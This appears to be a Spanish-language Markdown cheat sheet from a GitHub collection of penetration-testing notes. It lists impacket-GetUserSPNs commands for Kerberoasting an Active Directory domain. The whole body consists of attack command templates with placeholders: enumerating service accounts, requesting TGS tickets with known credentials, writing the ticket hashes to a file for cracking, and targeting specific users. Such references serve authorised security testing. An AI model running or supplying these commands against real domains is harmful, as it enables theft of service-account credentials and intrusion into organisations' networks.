 # GetUserSPNs Cheat Sheet

#### Kerberoasting Attack
```
impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP>
```

#### Kerberoasting Attack - con usuario y contraseña que tengamos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD>
```

#### Obtener TGS
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request
```

#### Obtener TGS y guardar el resultado en un archivo
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -request -outputfile <OUTPUT>
```

#### Obtener TGS de un usuario en particular
```
impacket-GetUserSPNs -dc-ip <IP-TARGET> <DOMAIN>/<USER>:<PASSWORD> -request-user <NAME-USER>
```

#### Kerberoasting Attack usando una autenticación kerberos
```
impacket-GetUserSPNs <DOMAIN>/<USER>:<PASSWORD> -k -dc-ip <DOMAIN>
```


---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)